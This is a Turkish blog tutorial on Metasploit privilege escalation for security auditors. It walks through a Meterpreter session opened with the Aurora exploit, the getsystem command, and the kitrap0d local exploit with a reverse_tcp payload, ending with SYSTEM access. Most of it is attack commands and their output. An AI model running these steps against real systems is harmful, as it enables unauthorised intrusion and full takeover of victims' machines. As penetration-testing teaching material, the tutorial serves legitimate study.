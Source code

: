 ```yaml
---
draft: false

title:  'MSF Yetki Yükseltme'
date: '2017-05-25T13:16:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  'Bu yazımızdan itibaren yetki yükseltme olarak ifade edilen (İng: Privilege Escalation) kavramı inceleyeceğiz. Karşı sisteme erişim sağlayan güvenlik denetçisini bu aşamadan itibaren ilerleme sağlamayı hedeflemelidir. Ağda devam eden iletişimi kontrol etme, hash değerlerini elde etme bunlara örnek olarak verilebilir. Bir diğer hedef ise, bu bilgisayarı basamak olarak kullanarak (İng: Pivoting) başka bilgisayarlara erişim sağlamak olmalıdır.' 
 
url:  /tr/msf-yetki-yukseltme/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



## Ya sonra?



Bir sistemin zafiyetini bulmak için gerekli çalışmaları yaptınız. Açık noktasını buldunuz ve doğru adımları uyguladıktan sonra hedef bilgisayarda bir komut satırı açmayı başardınız. Peki bundan sonra ne yapılmalı?



Bu yazımızdan itibaren yetki yükseltme olarak ifade edilen (İng: Privilege Escalation) kavramı inceleyeceğiz. Karşı sisteme erişim sağlayan güvenlik denetçisini bu aşamadan itibaren ilerleme sağlamayı hedeflemelidir. Ağda devam eden iletişimi kontrol etme, hash değerlerini elde etme bunlara örnek olarak verilebilir. Bir diğer hedef ise, bu bilgisayarı basamak olarak kullanarak (İng: Pivoting) başka bilgisayarlara erişim sağlamak olmalıdır.



Kullandığınız zafiyet ve buna yönelik exploit modülü karşı bilgisayarda oturum açmanıza yaramış olsa bile yetkisiz bir oturum açmış olabilirsiniz. Bu durumda yapabileceğiniz işlemler kısıtlı olacaktır. Böyle durumlar için Metasploit Framework içerisinde bulunan bir kaç alternatif modül bulunmaktadır. bunlardan bir tanesi de `getsystem` komutudur.



## Yetkisiz Oturum



Aşağıdaki örnekte görüldüğü gibi, hedef sistemde `ms10_002_aurora` modülü kullanılarak yetkisiz bir meterpreter oturumu açılmıştır.


```bash
msf exploit**(**ms10_002_aurora**)** >
> Sending Internet Explorer "Aurora" Memory Corruption to client 192.168.1.161
> Sending stage **(**748544 bytes**)** to 192.168.1.161
> Meterpreter session 3 opened **(**192.168.1.71:38699 -> 192.168.1.161:4444**)** at 2010-08-21 13:39:10 -0600

msf exploit**(**ms10_002_aurora**)** > sessions -i 3
> Starting interaction with 3...

meterpreter > getuid
Server username: XEN-XP-SP2-BARE\victim
meterpreter >
```



## GetSystem



`getsystem` komutunu kullanabilmek için öncelikle `priv` eklentisini sisteme yükleyelim.


```bash
meterpreter > use priv
Loading extension priv...success.
meterpreter >
```



`getsystem -h` komutunda olduğu gibi `-h` parametresini kullandığınızda kullanılabilir seçenekleri görebilirsiniz.



``sh meterpreter > getsystem -h Usage: getsystem [options]



Attempt to elevate your privilege to that of local system.



OPTIONS:


```bash
-h        Help Banner.
-t <opt>  The technique to use. (Default to '0').
0 : All techniques available
1 : Service - Named Pipe Impersonation (In Memory/Admin)
2 : Service - Named Pipe Impersonation (Dropper/Admin)
3 : Service - Token Duplication (In Memory/Admin)
```



meterpreter >


```bash

```getsystem
``` komutuna hiçbir parametre vermezseniz, varsayılan olarak tüm ihtimalleri deneyecektir. 

```sh
meterpreter > getsystem
...got system (via technique 1).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```



## Yerel Exploit Kullanma



Bazı durumlarda `getsystem` başarısız olur. Aşağıda bunun örneğini görebilirsiniz. `getsystem` başarısız olduğunda oturumu arka plana gönderip, Metasploit Framework içerisindeki diğer exploit modüllerini kullanmak gerekmektedir.


```bash
meterpreter > getsystem
**[**-] priv_elevate_getsystem: Operation failed: Access is denied.
meterpreter >
```



Yukarıda başarısız olmuş bir `getsystem` komutu çıktısı görülüyor. Şimdi bunu arka plana gönderelim ve kullanılabilir durumdaki yerel exploit modüllerine bakalım.


```bash
meterpreter > background
> Backgrounding session 1...
msf exploit**(**ms10_002_aurora**)** > use exploit/windows/local/
...snip...
use exploit/windows/local/bypassuac
use exploit/windows/local/bypassuac_injection
...snip...
use exploit/windows/local/ms10_015_kitrap0d
use exploit/windows/local/ms10_092_schelevator
use exploit/windows/local/ms11_080_afdjoinleaf
use exploit/windows/local/ms13_005_hwnd_broadcast
use exploit/windows/local/ms13_081_track_popup_menu
...snip...
msf exploit**(**ms10_002_aurora**)** >
```



Bu listedeki modüllerden `exploit/windows/local/ms10_015_kitrap0d` modülünü kullanalım.


```bash
msf exploit**(**ms10_002_aurora**)** > use exploit/windows/local/ms10_015_kitrap0d
msf exploit**(**ms10_015_kitrap0d**)** > set SESSION 1
msf exploit**(**ms10_015_kitrap0d**)** > set PAYLOAD windows/meterpreter/reverse_tcp
msf exploit**(**ms10_015_kitrap0d**)** > set LHOST 192.168.1.161
msf exploit**(**ms10_015_kitrap0d**)** > set LPORT 4443
msf exploit**(**ms10_015_kitrap0d**)** > show options

Module options **(**exploit/windows/local/ms10_015_kitrap0d**)**:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  1                yes       The session to run this module on.


Payload options **(**windows/meterpreter/reverse_tcp**)**:

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique **(**accepted: seh, thread, process, none**)**
   LHOST     192.168.1.161    yes       The listen address
   LPORT     4443             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 2K SP4 - Windows 7 **(**x86**)**


msf exploit**(**ms10_015_kitrap0d**)** > exploit

>  Started reverse handler on 192.168.1.161:4443 
>  Launching notepad to host the exploit...
**[**+]  Process 4048 launched.
>  Reflectively injecting the exploit DLL into 4048...
>  Injecting exploit into 4048 ...
>  Exploit injected. Injecting payload into 4048...
>  Payload injected. Executing exploit...
**[**+]  Exploit finished, wait **for** **(**hopefully privileged**)** payload execution to complete.
>  Sending stage **(**769024 bytes**)** to 192.168.1.71
>  Meterpreter session 2 opened **(**192.168.1.161:4443 -> 192.168.1.71:49204**)** at 2014-03-11 11:14:00 -0400
```



Gerekli modül ve payload ayarlarını yaptıktan sonra çalıştırılan exploit, hedef sistemde bir oturum açmayı başarmıştır. Şimdi `getuid` komutunu verdiğimizde `SYSTEM` yetkili bir kullanıcı gibi hareket edilebileceği aşağıda görülmektedir.


```bash
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >```
